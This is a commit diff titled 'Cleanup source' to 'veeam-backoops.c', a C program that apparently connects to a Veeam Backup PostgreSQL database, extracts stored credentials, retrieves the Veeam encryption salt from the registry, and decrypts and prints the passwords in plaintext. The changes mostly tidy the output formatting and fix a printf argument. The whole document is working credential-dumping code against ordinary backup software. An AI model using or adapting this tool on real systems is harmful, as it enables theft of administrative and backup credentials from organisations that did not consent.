

Cleanup source

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.8949, 0.0, 0.9874, 0.0304], [0.0, 0.9718, 0.0309, 1.0]]

diff --git a/veeam-backoops.c b/veeam-backoops.c
@@ -13,13 +13,18 @@ int main(void) {
   int status;
   libpq_t pq;
 
+  HANDLE h_stdout = GetStdHandle(STD_OUTPUT_HANDLE);
+  HANDLE h_stderr = GetStdHandle(STD_ERROR_HANDLE);
+
+  SetConsoleTextAttribute(h_stdout, 15);
+  SetConsoleTextAttribute(h_stderr, 15);
+
   if ((status = vb_libpq_map(&pq, libpq_path, sizeof(libpq_path))) != ERROR_SUCCESS) {
     fprintf(stderr, "- vb_libpq_map(...) failed to map libpq functions [0x%08lx]\n", status);
     return 1;
   }
 
   printf("- Mapped libpq successfully [libpq v%d]\n", pq.PQlibVersion());
-  printf("- Mapped @ \"%s\"\n", libpq_path);
 
   vb_data_t vb_data = {0};
 
@@ -37,7 +42,7 @@ int main(void) {
     goto cleanup;
   }
 
-  printf("- Connected to database successfully [db=%s] [user=%s]\n", PG_DATABASE, PG_USERNAME);
+  printf("- Connected to database [db=%s] [user=%s]\n", PG_DATABASE, PG_USERNAME);
 
   /* Uh oh - upon failing the pg_hba restoration, we will just dump all info we have of the original copy. */
   if (!vb_data_pg_hba_restore(&vb_data)) {
@@ -69,41 +74,7 @@ int main(void) {
     goto cleanup;
   }
 
-  printf("- %d Credential(s) successfully extracted from database [%s]\n\n", status, PG_DATABASE);
-
-  printf("\t");
-  if (SHOW_DESCRIPTION)
-    printf("%-50s | ", "DESCRIPTION");
-  printf("%-44s | %s\n\t", "USERNAME", "ENCRYPTED PASSWORD");
-
-  if (SHOW_DESCRIPTION) {
-    for (int i = 0; i < 50; i++) putchar('-');
-    printf("-+-");
-  }
-  for (int i = 0; i < 44; i++) putchar('-');
-  printf("-+-");
-  for (int i = 0; i < 52; i++) putchar('-');
-  putchar('\n');
-
-  char peek[3][50];
-  for (struct vb_credential *tmp = vb_data.vbc; tmp; tmp = tmp->next) {
-    for (int i = 0; i < 3; i++) 
-      memset(peek[i], 0, sizeof(peek[i]));
-
-    strncpy(peek[0], tmp->description, sizeof(peek[0]) - 1);
-    strncpy(peek[1], tmp->user_name, sizeof(peek[1]) - 1);
-    strncpy(peek[2], tmp->password, sizeof(peek[2]) - 1);
-
-    printf("\t");
-
-    if (SHOW_DESCRIPTION) 
-      printf("%-50s | ", peek[0]);
-    printf("%-44s | %s...\n", peek[1], peek[2]);
-  }
-
-  printf("\n");
-
-/* Reg key test */
+  printf("- %d Credential(s) successfully extracted from database [%s]\n", status, PG_DATABASE);
 
   if (!vb_get_encryption_salt(&vb_data.encryption_salt, VEEAM_SALT_ROOT, VEEAM_SALT_SUBKEY, VEEAM_SALT_KEY)) {
     fprintf(stderr,
@@ -112,18 +83,19 @@ int main(void) {
     goto cleanup;
   }
 
-  printf("- Successfully retrieved Veeam encryption salt [%s]\n", vb_data.encryption_salt);
+  printf("- Retrieved Veeam encryption salt [%s]\n", vb_data.encryption_salt);
 
   int d = 0;
   for (struct vb_credential *tmp = vb_data.vbc; tmp; tmp = tmp->next) {
     if (!vb_credential_decrypt(tmp, vb_data.encryption_salt)) {
-      fprintf(stderr, "- Failed to decrypted %s password\n");
+      fprintf(stderr, "- Failed to decrypted %s password\n", tmp->user_name);
       continue;
     }
 
-    printf("- Decrypted %s password successfully\n", tmp->user_name);
     d++;
   }
+
+  printf("- Decrypted %d/%d passwords:\n", d, status);
 
   if (d) {
     printf("\n\t");
@@ -131,23 +103,14 @@ int main(void) {
       printf("%-50s | ", "DESCRIPTION");
     printf("%-44s | %s\n\t", "USERNAME", "PLAINTEXT PASSWORD");
 
-    if (SHOW_DESCRIPTION) {
-      for (int i = 0; i < 50; i++) putchar('-');
-      printf("-+-");
-    }
-    for (int i = 0; i < 44; i++) putchar('-');
-    printf("-+-");
-    for (int i = 0; i < 50; i++) putchar('-');
-    putchar('\n');
+    if (SHOW_DESCRIPTION)
+      printf("---------------------------------------------------+");
+    printf("---------------------------------------------+--------------------------------------------------\n");
 
     for (struct vb_credential *tmp = vb_data.vbc; tmp; tmp = tmp->next) {
       if (!tmp->plaintext) /* Only want to show credentials which we have decrypted successfully */
         continue;
-      for (int i = 0; i < 3; i++) 
-        memset(peek[i], 0, sizeof(peek[i]));
-
       printf("\t");
-
       if (SHOW_DESCRIPTION) 
         printf("%-50s | ", tmp->description);
       printf("%-44s | %s\n", tmp->user_name, tmp->plaintext);
